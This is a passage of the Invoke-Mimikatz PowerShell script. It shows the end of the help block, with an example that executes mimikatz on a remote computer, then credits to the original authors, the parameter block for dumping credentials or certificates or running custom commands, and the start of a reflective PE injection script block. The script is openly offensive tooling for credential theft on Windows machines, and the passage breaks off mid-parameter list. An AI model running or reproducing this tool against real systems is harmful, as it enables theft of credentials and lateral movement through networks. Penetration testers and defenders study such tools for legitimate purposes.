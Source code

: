 .EXAMPLE

Execute mimikatz on a remote computer with the custom command "privilege::debug exit" which simply requests debug privilege and exits
Invoke-Mimikatz -Command "privilege::debug exit" -ComputerName "computer1"

.NOTES
This script was created by combining the Invoke-ReflectivePEInjection script written by Joe Bialek and the Mimikatz code written by Benjamin DELPY
Find Invoke-ReflectivePEInjection at: https://github.com/clymb3r/PowerShell/tree/master/Invoke-ReflectivePEInjection
Find mimikatz at: http://blog.gentilkiwi.com

.LINK

http://clymb3r.wordpress.com/2013/04/09/modifying-mimikatz-to-be-loaded-using-invoke-reflectivedllinjection-ps1/
#>

[CmdletBinding(DefaultParameterSetName="DumpCreds")]
Param(
	[Parameter(Position = 0)]
	[String[]]
	$ComputerName,

    [Parameter(ParameterSetName = "DumpCreds", Position = 1)]
    [Switch]
    $DumpCreds,

    [Parameter(ParameterSetName = "DumpCerts", Position = 1)]
    [Switch]
    $DumpCerts,

    [Parameter(ParameterSetName = "CustomCommand", Position = 1)]
    [String]
    $Command
)

Set-StrictMode -Version 2


$RemoteScriptBlock = {
	[CmdletBinding()]
	Param(
		[Parameter(Position = 0, Mandatory = $true)]
		[String]
		$PEBytes64,

        [Parameter(Position = 1, Mandatory = $true)]
		[String]
		$PEBytes32,
		
		[Parameter(Position = 2, Mandatory = $false)]
		[String]
		$FuncReturnType,
				
		[Parameter(Position = 3, Mandatory = $false)]
		[Int32]
		$ProcId,
		